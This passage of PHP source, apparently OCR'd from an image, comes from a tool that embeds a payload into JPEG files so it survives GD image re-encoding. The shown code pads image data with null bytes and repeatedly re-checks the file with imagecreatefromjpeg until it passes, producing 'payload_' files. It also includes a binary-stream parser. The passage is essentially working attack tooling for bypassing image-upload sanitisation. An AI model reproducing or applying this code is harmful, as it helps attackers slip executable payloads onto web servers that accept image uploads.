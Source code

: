 ```php
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }
```